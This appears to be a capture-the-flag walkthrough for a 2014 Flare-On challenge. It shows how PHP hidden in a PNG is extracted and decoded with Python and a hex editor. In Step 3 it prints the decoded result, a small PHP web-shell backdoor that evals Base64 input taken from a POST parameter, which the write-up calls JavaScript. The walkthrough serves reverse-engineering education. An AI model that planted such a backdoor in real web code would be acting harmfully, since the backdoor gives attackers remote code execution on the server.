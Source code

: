 # Flare-On Challenge Walkthrough 2014: **`home.html`** Analysis

In this walkthrough, we’ll break down the process of analyzing the `home.html` file from the Flare-On challenge. This guide will help you extract and decode a hidden PHP-encoded script embedded in a PNG image. By leveraging Python scripts and a hex editor, we will decode the hidden content and reveal the payload.

## Table of Contents
- [Introduction](#introduction)
- [Step 1: Inspect `home.html` with Browser Developer Tools](#step-1-inspect-homehtml-with-browser-developer-tools)
- [Step 2: Examine `flare-on.png` for Embedded PHP Code](#step-2-examine-flare-onpng-for-embedded-php-code)
- [Step 3: Decode the PHP Code and Extract JavaScript](#step-3-decode-the-php-code-and-extract-javascript)
- [Step 4: The Flag](#step-4-the-flag)
- [References](#references)
---

## Introduction

In this challenge, the goal is to decode hidden content embedded in a PNG file via PHP code. The content is encoded in Base64 and contains escape sequences that must be resolved to reveal the final JavaScript code.

We'll walk through the steps of inspecting `home.html`, extracting PHP code from the `flare-on.png`, decoding Base64 strings, and decoding escape sequences to uncover the JavaScript payload.

---

## Step 1: Inspect `home.html` with Browser Developer Tools

![1 - Home Page](images/1-home-page.png)

1. **Open `home.html` in a browser**:
   - With developer tools enabled, open the `home.html` file.
   - Upon inspection, you'll notice that the HTML contains an image tag for `img/flare-on.png` and an embedded PHP script.
   - Specifically, you’ll see an unconventional PHP `include` statement inside a `<script>` tag, like this:

     ![2 - Inspected HTML](images/2-inspected-html.png)

2. **What this indicates**:
   - This suggests that PHP code might be embedded in the `flare-on.png` image file. We’ll need to analyze the image to extract the PHP code and proceed with further decoding.
   - The next step involves inspecting `flare-on.png` in a hex editor to extract the embedded PHP code.

---

## Step 2: Examine `flare-on.png` for Embedded PHP Code

1. **Open `flare-on.png` in a hex editor**:
   - We open `flare-on.png` using a hex editor. The goal here is to search for embedded PHP code.
   - Search for the string `<?php` to locate where the PHP code begins in the image.

2. **Extract the PHP code**:
   - The PHP code starts at offset `0x19c4` in the file.

     ![3 - PHP in Png](images/3-php-in-png.png)
     
   - Copy the PHP code from this offset and save it to a new file called `extracted_php.php`.

3. **PHP Code Breakdown**:
    - Contains an array `$terms` with 80 characters and another array `$order` that defines the order in which these characters will be rearranged to form a string.
    - Uses the `$order` array to shuffle characters from the `$terms` array to create a string. The result is stored in the `$do_me` variable, which will be executed later as part of the hidden payload.
      
      ![5 - Extracted PHP](images/5-extracted-php.png)
---

## Step 3: Decode the PHP Code and Extract JavaScript

1. **Python Conversion**:
   - After extracting the PHP code, we convert it into Python. The goal is to simulate the PHP array shuffling process and extract the resulting string (the `$do_me` variable).
   
   Here is a simplified breakdown of the Python script `converted_php.py`:
   
   ```python
   terms = ["..."]  # 80 characters from PHP code
   order = [...]  # Indices for the character order

   do_me = ''.join([terms[i] for i in order])
   print(do_me)
   ```

   The Python script prints the resulting value of `$do_me`, which contains a Base64-encoded JavaScript code.
   
      ![4 - Printed Do_me](images/4-printed-do-me.png)
   
3. **Base64 Decoding**:
   - We then use the Python script `convert_js.py` to decode the Base64-encoded JavaScript.
   - The process involves:
     - Decoding two Base64-encoded strings: one for `$_` and another for `$__`.
     - Combining both strings to form a partially obfuscated JavaScript code.

   The Python script also decodes hexadecimal (`\x4F`) and decimal (`\97`) escape sequences in the decoded code. This results in the following final JavaScript code:

   ```javascript
   if (isset($_POST["a11DOTthatDOTjava5crapATflareDASHonDOTcom"])) { 
       eval(base64_decode($_POST["a11DOTthatDOTjava5crapATflareDASHonDOTcom"])); 
   }
   eval(base64_decode($_));
   eval($code);
   ```

   This JavaScript contains functionality to execute Base64-decoded content received through a POST request, which is a typical web-based payload.

---

## Step 4: The Flag

The de-obfuscated JavaScript reveals an important action: it checks for a specific POST request and decodes its Base64 content. This can be used to trigger further actions on the server or extract sensitive information.

  - **Flag:**
    ```
    Original: a11DOTthatDOTjava5crapATflareDASHonDOTcom
    Readable: a11.that.java5crap@flare-on.com
    ```

---

## References
- **Hex Editor**: Allows you to see the raw binary content of a file, making it possible to find hidden data or scripts embedded within files.

- **Browser Developer Tools**: Provide an easy way to explore the structure and content of a web page.

- **Base64 Decoder**: Often used to obfuscate data, and decoding it reveals the original payload.

- **Escape Sequence Decoder**: The final step involved decoding hexadecimal and decimal escape sequences.
   - These sequences represent characters encoded in a way that obfuscates the code further, and resolving them makes the code readable and executable.
